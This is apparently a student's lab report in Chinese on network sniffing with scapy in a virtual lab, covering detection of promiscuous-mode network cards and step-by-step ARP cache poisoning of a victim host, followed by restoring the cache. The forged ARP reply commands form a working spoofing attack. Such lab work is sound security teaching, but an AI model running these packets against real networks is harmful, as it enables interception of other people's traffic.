 # 第四章 网络监听

## 实验目的

完成基于`scapy`工具的网络监听基本操作

## 实验步骤

### 网络拓扑

![](img/chap0x04-top.png)

如图所示网络中的节点基本信息如下：

**攻击者**

![](img/kali-ad.png)

**受害者**

![](img/victim-ad.png)

**网关**

![](img/debian-ad.png)

|                    | 物理地址          | IP地址         |
| ------------------ | ----------------- | -------------- |
| 攻击者主机（Kali） | 08:00:27:ea:85:64 | 172.16.111.138 |
| 受害者主机（XP）   | 08:00:27:c3:7a:c4 | 172.16.111.118 |
| 网关（Debian）     | 08:00:27:f0:63:c9 | 172.16.111.1   |

### 实验准备

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](img/scapy-install.png)

### 实验一：检测局域网中的异常终端

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](img/show.png)

```shell
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.118")
```

![](img/test.png)

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串

# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![](img/promisc-on.png)

```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.118")
```

![](img/comp.png)

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![](img/promisc-off.png)

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上的 `scapy` 终端进行投毒操作

```shell
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](img/arp-re.png)

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/gw-mac.png)

```shell
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.118
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.118", hwdst="08:00:27:ea:85:64")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![](img/sentfakearp.png)

查看arp表变化，毒化成功

![](img/arp-change.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令

```shell
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:f0:63:c9", pdst="172.16.111.118", hwdst="08:00:27:c3:7a:c4")
sendp(restorepkt1, count=100, inter=0.2)
```

![](img/reset-arp.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

```shell
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![](img/newarp.png)

## 实验总结

- 在攻击者主机上开启scapy时记得用管理者权限（sudo），否则后续命令运行会显示没有权限

  ![](img/not-permitted.png)

- 在攻击者主机上构造好ARP请求包并发送到网关却无法收到回复

  ![](img/received0.png)

  导致后续对受害者arp表投毒也无法实现。查看了老师同学的作业自己在arp请求包的构造上并没有区别，只能是网络上出问题，后来才发现攻击者主机和网关还保持着NatNetwork的连接，猜测是因为这个原因。

  ![](img/natnet.png)

  手动取消网卡1的启用后再次发送arp请求包，显示可以收到回复

  ![](img/gw-mac.png)

## 参考资料

- [课本-第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [2022-ns-public-Xuyan-cmd](https://github.com/CUCCS/2022-ns-public-Xuyan-cmd/tree/9fe5000d4d1a146b6bf1bf2042cd7cace3c781ad)